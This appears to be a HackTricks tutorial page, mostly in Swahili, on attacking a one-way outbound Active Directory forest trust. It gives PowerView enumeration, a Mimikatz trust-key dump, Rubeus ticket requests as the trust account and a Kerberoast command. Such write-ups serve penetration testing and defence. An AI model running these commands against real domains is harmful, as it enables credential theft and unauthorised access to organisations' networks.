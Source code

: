 # External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Katika hali hii **domeni yako** in **amini** baadhi ya **mamlaka** kwa kiongozi kutoka **domeni tofauti**.

## Enumeration

### Outbound Trust
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Trust Account Attack

Ukiukosefu wa usalama upo wakati uhusiano wa kuaminiana unapoanzishwa kati ya maeneo mawili, ambayo yanatambulika hapa kama eneo **A** na eneo **B**, ambapo eneo **B** linapanua uaminifu wake kwa eneo **A**. Katika mpangilio huu, akaunti maalum inaundwa katika eneo **A** kwa ajili ya eneo **B**, ambayo ina jukumu muhimu katika mchakato wa uthibitishaji kati ya maeneo mawili. Akaunti hii, inayohusishwa na eneo **B**, inatumika kwa ajili ya kuficha tiketi za kupata huduma kati ya maeneo.

Jambo muhimu kuelewa hapa ni kwamba nenosiri na hash ya akaunti hii maalum yanaweza kutolewa kutoka kwa Kidhibiti cha Eneo katika eneo **A** kwa kutumia zana ya amri. Amri ya kutekeleza kitendo hiki ni:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
Hii uvunaji inawezekana kwa sababu akaunti, iliyotambulishwa na **$** baada ya jina lake, iko hai na inahusishwa na kundi la "Domain Users" la domain **A**, hivyo kurithi ruhusa zinazohusiana na kundi hili. Hii inawawezesha watu kuthibitisha dhidi ya domain **A** wakitumia akidi za akaunti hii.

**Warning:** Inawezekana kutumia hali hii kupata msingi katika domain **A** kama mtumiaji, ingawa kwa ruhusa zilizopunguzwa. Hata hivyo, ufikiaji huu unatosha kufanya uhesabuji katika domain **A**.

Katika hali ambapo `ext.local` ni domain inayotegemea na `root.local` ni domain inayotegemewa, akaunti ya mtumiaji iitwayo `EXT$` itaundwa ndani ya `root.local`. Kupitia zana maalum, inawezekana kutoa funguo za kuaminiana za Kerberos, zikifunua akidi za `EXT$` katika `root.local`. Amri ya kufanikisha hili ni:
```bash
lsadump::trust /patch
```
Kufuata hili, mtu anaweza kutumia funguo ya RC4 iliyochukuliwa kuthibitisha kama `root.local\EXT$` ndani ya `root.local` kwa kutumia amri ya chombo kingine:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Hii hatua ya uthibitishaji inafungua uwezekano wa kuhesabu na hata kutumia huduma ndani ya `root.local`, kama vile kufanya shambulio la Kerberoast ili kutoa akauti za huduma kwa kutumia:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Kukusanya nenosiri la kuaminiana la wazi

Katika mchakato uliopita, ilitumika hash ya kuaminiana badala ya **nenosiri la wazi** (ambalo pia **lilikuwa limeondolewa na mimikatz**).

Nenosiri la wazi linaweza kupatikana kwa kubadilisha \[ CLEAR ] kutoka kwa mimikatz kutoka hexadecimal na kuondoa bytes za null ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Wakati mwingine unapounda uhusiano wa kuaminiana, nenosiri lazima liandikwe na mtumiaji kwa ajili ya kuaminiana. Katika onyesho hili, funguo ni nenosiri la kuaminiana la awali na kwa hivyo linaweza kusomeka na binadamu. Kadri funguo inavyobadilika (siku 30), nenosiri la wazi halitasomeka na binadamu lakini kiufundi bado linaweza kutumika.

Nenosiri la wazi linaweza kutumika kufanya uthibitishaji wa kawaida kama akaunti ya kuaminiana, mbadala wa kuomba TGT kwa kutumia funguo ya siri ya Kerberos ya akaunti ya kuaminiana. Hapa, kuuliza root.local kutoka ext.local kwa wanachama wa Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Marejeo

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
